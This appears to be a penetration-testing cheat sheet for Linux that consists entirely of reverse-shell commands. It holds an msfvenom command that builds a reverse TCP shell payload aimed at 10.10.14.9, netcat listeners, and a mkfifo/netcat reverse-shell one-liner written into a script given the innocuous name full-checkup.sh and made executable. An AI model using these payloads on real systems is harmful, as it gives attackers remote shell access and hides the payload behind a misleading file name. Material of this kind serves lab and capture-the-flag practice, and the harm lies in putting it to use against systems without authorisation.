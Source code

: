 # Linux

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.9 LPORT=4444 PrependFork=true -o
rev
```

```bash
nc -nvlp 4444
```



Reverse shell netcat without -e

```bash
# Add reverse shell to shell script
echo -en "#! /bin/bash\nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR_IP>
9001 >/tmp/f" > /tmp/full-checkup.sh

# Change permissions
chmod +x /tmp/full-checkup.sh

# Listen
nc -nvlp 9001
```
